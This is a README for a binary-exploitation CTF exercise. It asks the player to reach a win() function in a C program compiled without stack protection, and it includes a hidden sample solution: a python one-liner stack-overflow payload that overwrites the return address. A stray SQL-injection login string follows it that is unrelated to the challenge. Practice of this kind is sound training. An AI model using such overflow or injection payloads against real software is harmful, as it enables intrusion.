 # Binary Exploit CTF Challenge

## Description
A simple c code practicing Binary Exploit. Try to access the win() function to get the flag!

## How to Run Locally

1. Build the C file:

  ```bash
    gcc vuln.c -o vuln -no-pie -fno-stack-protector
  ```

## Files
- `vuln.c` - Functionality

## Note
- The goal is to access win() in some way.
- the name array has 16 bytes

<details>
  <summary>Sample solution</summary>
  python3 -c 'import sys; sys.stdout.buffer.write(b"A"*24 + b"\x76\x11\x40\x00\x00\x00\x00\x00")' | ./vuln
  <b>admin' --</b>

</details>
